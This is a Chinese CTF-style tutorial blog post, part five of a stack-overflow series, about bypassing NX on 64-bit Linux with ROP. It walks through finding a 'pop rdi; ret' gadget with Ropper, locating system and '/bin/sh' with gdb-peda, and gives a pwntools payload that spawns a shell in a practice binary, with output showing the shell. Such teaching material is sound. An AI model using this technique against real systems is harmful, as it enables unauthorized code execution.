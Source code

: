 ```yaml
---
id: 780
layout: post
title: '二进制安全之栈溢出（五）[未完待续]'
date: 2017-10-24 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


NX 不可执行是一项重要的漏洞利用缓解措施，为了绕过 NX 我们需要利用已有的可执行区域的代码片段来辅助完整漏洞利用。

这次还是需要禁用 ASLR，编译参数为 `gcc -g -O0 -fno-stack-protector -o vuln main.c`

在 32 位系统中，函数调用参数都是通过栈来传递的，而在 64 位系统中，函数参数是优先使用寄存器来传递的，当参数少于 7 个时，参数从左到右放入寄存器 `rdi, rsi, rdx, rcx, r8, r9`，如果超过 7 个，剩下的参数还是使用栈来传递。

在 32 位系统中，因为栈是相对容易控制的，我们可以控制栈为函数参数的形式，然后覆盖返回地址为已有的函数地址，比如 libc 中的 system 函数，这样就可以实现任意命令执行了。但是在 64 位系统中，控制了栈是没有用的，必须要控制寄存器才可以，除非是函数不需要参数。所以我们需要找到一些已有的指令片段，比如 `pop rdi`，会把栈中的参数转移到寄存器中，这样逐步的控制所需的所有寄存器，我们称这种指令片段为 gadget。

## 需要什么

以执行 `system("/bin/sh")` 为例

 - `system` 函数的地址，因为禁用了 ASLR，这个地址可以放心的硬编码。
 - 要执行的函数参数，这里是 `/bin/sh`，需要在内存中放置或者找到一个已有的。
 - 一个可以把 `/bin/sh` 放入 RDI 寄存器的 gadget。

## gadget 的选择

[Ropper](https://github.com/sashs/Ropper) 是一个寻找 gadget 的工具，安装后可以使用下面的命令来寻找 

```
python Ropper.py --file VULN_PATH --search "% ?di"
```

可以看到结果是 

```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % ?di

[INFO] File: ../vuln
0x0000000000400610: mov edi, 0x601060; jmp rax;
0x000000000040060f: pop rbp; mov edi, 0x601060; jmp rax;
0x0000000000400803: pop rdi; ret;
```

发现最后一个 `pop rdi; ret;` 非常理想，首先是因为可以复制参数到寄存器，其次是 `ret` 可以让程序再回到我们控制的地址上继续后续的执行。

## `system("/bin/sh")`

`system` 函数的地址可以简单获得

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x400550 <system@plt>
```

而寻找 `/bin/sh` 可以使用 `find` 命令

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
```

发现 libc 中有一个，而 `student` 内存我们可以控制，也可以自己放置一个，这次先使用 libc 中的。

## shellcode

仿照之前的写法，我们很简单就可以写出 shellcode

```python
from pwn import *
shellcode = "1925\n"
shellcode += "A" * (0x7fffffffe348 - 0x7fffffffe2f0)
# pop rdi; ret
shellcode += p64(0x0000000000400803)
# /bin/sh
shellcode += p64(0x7ffff7b99d17)
# system
shellcode += p64(0x400550)

print shellcode
```

## 分析

在 GDB 中运行，可以看到 `/bin/dash` 被执行，其实 `/bin/sh` 就仅仅是它的一个符号链接。

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
0x7fffffffe2f0What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
[New process 4824]
process 4824 is executing new program: /bin/dash
[New process 4825]
process 4825 is executing new program: /bin/dash
[Inferior 3 (process 4825) exited normally]
Warning: not running or target is remote
```

因为禁用 ASLR 的原因，libc 的加载地址不变，这个 shellcode 也是可以直接运行的

```
➜  new (cat in.txt; cat) |./vuln
0x7fffffffe360What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
id
uid=1000(virusdefender) gid=1000(virusdefender) groups=1000(virusdefender),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```


